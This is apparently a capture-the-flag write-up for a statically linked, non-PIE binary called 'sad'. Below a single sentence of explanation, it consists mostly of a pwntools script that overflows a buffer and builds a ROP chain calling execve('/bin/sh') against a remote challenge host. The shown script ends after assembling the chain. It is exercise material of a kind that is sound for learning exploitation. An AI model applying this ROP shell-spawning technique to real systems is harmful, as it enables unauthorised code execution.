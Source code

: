 
Static binary, No-pie, This was yet another bufferoverflow, i did execve('/bin/sh',NULL,NULL).
#### exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./sad')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50002)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
#gadgets
binsh = 0x483008
pop_rdi = 0x0047dd37
pop_rsi = 0x00464cf8
pop_rdx = 0x0040177f
pop_rax = 0x0043f8d7
syscall = 0x00475052
io.recvuntil('you need ;)\n')
rop = flat([
	'A'*0x100,
	'B'*8,
	pop_rdi,
	binsh,
	pop_rsi,
	0x0,
	pop_rdx,
	0x0,
	pop_rax,
	0x3b,
	syscall #do execve.
])
```